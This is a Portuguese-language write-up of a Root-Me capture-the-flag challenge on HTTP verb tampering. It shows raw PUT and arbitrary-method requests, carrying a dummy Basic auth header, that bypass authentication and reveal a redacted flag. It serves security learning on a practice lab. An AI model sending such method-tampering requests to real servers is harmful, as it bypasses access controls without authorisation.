 # HTTP - Verb tampering

Como o nome do desafio indica um Verb Tampering, é presumível que estamos lidando com o caso em que adulteração do método na requisição permite um bypass.

Uma leitura básica no link sobre [Verb Tampering](https://www.imperva.com/learn/application-security/http-verb-tampering/) do site da Imperva, aprendemos que adultaração arbitrária ou até mesmo utilizando métodos não bloqueados, o bypass é possível em alguns servidores afetados como nos exemplo abaixo:

## Método não bloqueado:
<b>Requisição:</b>
<pre>PUT /web-serveur/ch8/ HTTP/1.1
Host: challenge01.root-me.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Authorization: Basic dGVzdGU6dGVzdGU=
</pre>

## Método arbitrário:
<b>Requisição:</b>
<pre>
ZXCV /web-serveur/ch8/ HTTP/1.1
Host: challenge01.root-me.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Authorization: Basic dGVzdGU6dGVzdGU=
</pre>



<b>Resposta p/ ambos os casos:<b/>
<pre>
< html>< head>
< /head>

< h1>Mot de passe / password : (flag_here)< /h1>
< /body>< /html></pre>
